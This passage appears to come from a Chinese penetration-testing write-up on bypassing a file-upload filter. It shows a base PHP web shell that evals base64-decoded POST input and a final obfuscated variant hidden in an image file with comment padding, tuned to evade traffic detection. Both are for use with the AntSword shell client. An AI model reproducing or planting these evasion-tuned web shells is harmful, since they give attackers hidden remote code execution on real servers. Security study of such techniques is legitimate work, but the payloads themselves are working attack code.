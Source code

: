 ![image.png](./文件上传.assets/2023_05_19_14_38_11_I4ux6mYn.png)
可以看到成功执行了，说明shell还是可以用的，就是需要绕过流量特征检测。
这里想着用传递编码的字符到shell执行，但是始终会被拦截。没办法，只能从shell上下手，又经过一些免杀测试，准备好的基础免杀shell为`<?=@$_=$_POST;@eval(base64_decode($_[_]));`，经过不断的尝试，终于构造出可用的图片：
![image.png](./文件上传.assets/2023_05_19_14_38_11_0cvuS5zB.png)
 最终payload(蚁剑中_是保留字符，所以密码修改为了d):  
```php
$miniPayload = '/sssdajkhsdajk*/<?=@$_=$_POST;$x=BASE64_DECODE($_[d]);/*hsd*/@EVAL(($x));/*ajmjikloasdk*//*hsdajk*//*';
```
![image.png](./文件上传.assets/2023_05_19_14_38_11_Pei1nT6q.png)
 蚁剑的编码器用的编码器是对所有参数都base64编码(之前的流量中有很明显的PHP执行代码)，返回数据也都base64：  